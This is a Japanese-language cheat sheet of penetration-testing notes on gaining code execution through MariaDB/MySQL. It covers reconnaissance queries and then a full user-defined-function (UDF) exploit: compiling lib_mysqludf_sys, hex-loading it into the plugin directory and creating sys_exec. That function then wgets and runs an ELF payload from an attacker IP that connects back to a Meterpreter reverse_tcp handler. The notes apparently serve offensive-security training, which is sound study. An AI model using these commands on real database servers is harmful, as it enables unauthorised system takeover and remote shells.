

# MariaDB

* ログイン

  ```
  mysql --host=127.0.0.1 --port=13306 --user=wp -p
  ```

  

* 情報収集

  ```mariadb
  SHOW Grants;
  ```

  ※"*"の権限があるとより良い

  ```mariadb
  show variables like '%plugin%';
  ```

  →ディレクトリが設定されていること
  
  ```mariadb
  show variables like '%secure_file_priv%';
  ```
  
  →空白であること。設定されている場合、設定ファイルを修正用。権限がない場合が多い
  
  ```bash
  find ./ -name 'my.ini' 2>/dev/null
  find ./ -name 'mysql.oni' 2>/dev/null
  ```
  
  

* 脆弱性調査

  ```bash
  searchsploit mariadb
  searchsploit mysql
  ```


### UDF(User Defined)エクスプロイト

MySQLのカスタム関数を作成し、システムコマンドを含むほとんどすべてのコードを実行する

* シェルスクリプトをダウンロードする

  ```bash
  git clone https://github.com/mysqludf/lib_mysqludf_sys.git
  cd lib_mysqludf_sys/
  ```

* libmysqlclient15-dev をインストールする

  ```bash
  sudo apt update && sudo apt install default-libmysqlclient-dev
  sudo apt install default-libmysqlclient-dev
  ```

* 古いオブジェクトファイルを削除

  ```bash
  rm lib_mysqludf_sys.so
  ```

* Makefileを修正する

  ```makefile
  LIBDIR=/usr/lib
  
  install:
  	gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
  ```

  * Wallフラグ：gccの警告メッセージをすべて有効
  * -Iはヘッダーファイルのディレクトリを含める

* コンパイルする

  ```
  make
  ```

  * ライブラリがなければ再度apt installを試してみる
  * それでもなければネットからダウンロードして-Iオプションで指定したディレクトリ配下に追加する

  * __WINエラの対処法

    

    https://forums.offensive-security.com/showthread.php?38783-24-3-2-make-failed-(missing-m_ctype-h)/page4&p=190865#post190865

* データベースに登録するためにhexdumpを出力する

  ```bash
  xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
  ```

  -p：プレーンなhexdumpを出力

   tr を使って改行文字を削除

* MariaDBにシェルコード用の変数を作成する

  ※hexファイルの出力の先頭に`0x`を付けて定義する(MariaDBがテキストをバイナリとして読み取るために必要なもの)

  ```mariadb
  set @shell = 0x7f454c4602010100000000000000000003003e00010000000000000000000000400000000000000070390000000000000000000040003800090040001c001b000100000004000000000000000000000000000000000000000000000000000000b009000000000000b009000000000000001000000000000001000000050000000010000000・・・・・・・・・・・・・・・・・・・・000001100000003000000000000000000000000000000000000007c38000000000000f100000000000000000000000000000001000000000000000000000000000000;
  ```

* プラグインディレクトリの場所を確認

  ```bash
  select @@plugin_dir;
  ```

* シェル変数を攻撃対象ホストのプラグインフォルダに出力

  ```mariadb
  select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
  ```

  ※ファイル名には好きな名前を付けることができる

* 関数を作成する

  ```mariadb
  create function sys_exec returns int soname 'udf_sys_exec.so';
  ```

* 関数ができたか確認する

  ```bash
  select * from mysql.func where name='sys_exec';
  ```

* リバースシェルを配送して実行する

  ```mariadb
  select sys_exec('wget http://192.168.119.153');
  select sys_exec('wget http://192.168.119.153/shell_2.elf');
  select sys_exec('chmod +x ./shell_2.elf');
  ```

  ```bash
  exit
  sudo msfconsole -q -x "use exploit/multi/handler;\
               set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
               set LHOST 10.11.0.4;\
               set LPORT 443;\
               run"
  ```

  ```ddmariadb
  select sys_exec('./shell_2.elf');
  ```